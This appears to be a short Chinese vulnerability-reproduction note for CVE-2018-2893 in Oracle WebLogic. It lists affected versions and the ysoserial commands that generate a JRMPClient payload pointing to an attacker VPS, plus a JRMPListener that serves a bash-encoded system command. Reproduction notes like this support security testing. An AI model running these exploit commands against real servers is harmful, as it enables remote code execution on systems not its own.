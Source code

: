 ### CVE-2018-2893

影响版本：

Oracle WebLogic Server 10.3.6.0
Oracle WebLogic Server 12.1.3.0
Oracle WebLogic Server 12.2.1.2
Oracle WebLogic Server 12.2.1.3

漏洞复现：

![Dingtalk_20220401170339](.\image\Dingtalk_20220401170339.jpg)

本机利用ysoserial-cve-2018-2893.jar生成payload。

本机执行：java -jar ysoserial-cve-2018-2893.jar JRMPClient4 "vpsIP:1099" > poc5.ser

![Dingtalk_20220401170649](.\image\Dingtalk_20220401170649.jpg)

vps利用ysoserial-0.0.6-SNAPSHOT-BETA-all.jar开启JRMP监听（此处需要将系统命令进行bash编码）。

vps执行：java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 Jdk7u21 "bash编码后的系统命令"
